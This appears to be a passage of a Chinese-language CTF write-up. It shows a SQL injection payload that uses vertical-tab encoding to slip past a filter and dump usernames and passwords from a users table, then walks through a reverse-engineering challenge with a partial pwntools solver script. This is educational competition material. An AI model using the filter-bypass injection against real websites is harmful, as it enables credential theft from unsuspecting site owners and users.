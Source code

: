 ```
username=admin\&password=%0bunion%0bselect%0bgroup_concat(username,0x2a2a2a2a,password)%0bfrom%0busers%0b--%0b
```
结果如图：
![img](/img/post/ali-4.png)

# no3
来到第3道题，这是一道逆向题。作为一条web狗一开始让我做逆向我是拒绝的，但是在内心深处我还是渴望进化成bin爷爷(目前正利用业余时间学习0day安全那本书，过段时间会写两篇心得啥的)。
粗略看了下这是个没加壳的elf文件，扔到ida里直接看反汇编代码。整个代码都挺简单的，作为一个基本不会汇编逆向的web狗都能看得懂。大致流程是程序绑定监听一个端口号，然后将/dev/urandom文件的前4个字节发送至这个端口，接着从这个端口中接受4字节与一个通过特定计算算出的数做比较，如此进行5轮，如果5轮结果都正确的话就会将flag发送到这个端口上。
计算待比较数的函数也挺简单，甚至不需要看懂，只需要知道参数分别是发送至端口的数和当前轮次就行了。这里需要注意到的是接受到的数据是被翻转过的，所以只取第一个字节就行。
还有个坑就是之前看反汇编时没注意到每次的端口号不一样，所以死活进行不到第3轮。后来放在本地跑起来得到5次的端口号。
下面是整个利用代码：

```
# -*- coding:utf-8 -*-

from pwn import *


p = remote("114.215.211.232",1234)

#p = remote("192.168.20.132",1234)


def decode(a1,a2):
	v3 = 0
	if(a2 == 0):
		v3 = a1 * (((a2 + 2) >> 1) + 2)
	if(a2 == 1):
		v3 = 4 * (a2 + 1) +2 + a1
	if(a2 == 2):
		v3 = a1 * (((a2 + 2) >> 1) + 2)
	if(a2 == 3):
		v3 = 4 * (a2 + 1) +2 + a1
	if(a2 == 4):
		v3 = a1 * (((a2 + 2) >> 1) + 2)

	return v3

def exxp(i):
	leak = p.recv()
	print leak
	leak = leak[0]
	print leak
	leak = ord(leak)
	ans = decode(leak,i)

	print hex(ans)

	ans = p32(ans)
	print ans
	p.sendline(ans)

```